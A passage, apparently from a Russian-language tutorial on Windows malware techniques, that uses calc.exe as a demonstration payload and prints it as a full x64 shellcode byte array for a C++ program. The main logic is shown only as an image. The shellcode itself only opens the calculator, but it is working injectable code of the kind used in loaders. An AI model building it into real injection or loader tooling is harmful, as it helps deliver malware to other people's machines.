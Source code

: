и у нас есть размер полезной нагрузки `sizeof(my_payload)`.

Для простоты мы используем `calc.exe` в качестве полезной нагрузки. Не углубляясь в генерацию полезной нагрузки, мы просто подставим готовую полезную нагрузку в наш код:

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

А основная логика нашей функции `main` такова:    

![логика main](./images/2/2021-09-04_11-57.png){width="80%"}    
